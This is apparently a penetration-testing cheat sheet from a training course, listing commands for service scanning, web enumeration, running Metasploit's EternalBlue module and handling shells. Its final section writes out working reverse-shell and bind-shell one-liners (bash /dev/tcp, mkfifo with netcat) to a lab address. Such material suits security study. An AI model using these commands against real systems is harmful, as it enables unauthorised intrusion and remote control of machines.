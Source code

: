 ## Pentesting

| **Command**                                                                           | **Description**                                                       |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| <span style="color:#00ff73">**Service Scanning**</span>                               |                                                                       |
| `nmap 10.129.42.253`                                                                  | Run nmap on an IP                                                     |
| `nmap -sV -sC -p- 10.129.42.253`                                                      | Run an nmap script scan on an IP                                      |
| `locate scripts/citrix`                                                               | List various available nmap scripts                                   |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`                                | Run an nmap script on an IP                                           |
| `netcat 10.10.10.10 22`                                                               | Grab banner of an open port                                           |
| `smbclient -N -L \\\\10.129.42.253`                                                   | List SMB Shares                                                       |
| `smbclient \\\\10.129.42.253\\users`                                                  | Connect to an SMB share                                               |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`                            | Scan SNMP on an IP                                                    |
| `onesixtyone -c dict.txt 10.129.42.254`                                               | Brute force SNMP secret string                                        |
| <span style="color:#00ff73">**Web Enumeration**</span>                                |                                                                       |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`        | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                              | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                        | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                              | View page source (in Firefox)                                         |
| <span style="color:#00ff73">**Public Exploits**</span>                                |                                                                       |
| `searchsploit openssh 7.2`                                                            | Search for public exploits for a web application                      |
| `msfconsole`                                                                          | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                          | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                             | MSF: Start using an MSF module                                        |
| `show options`                                                                        | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                              | MSF: Set a value for an MSF module option                             |
| `check`                                                                               | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                             | MSF: Run the exploit on the target server is vulnerable               |
| <span style="color:#00ff73">**Using Shells**</span>                                   |                                                                       |
| `nc -lvnp 1234`                                                                       | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`    | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`         | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                  | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Upgrade shell TTY (2)                                                 |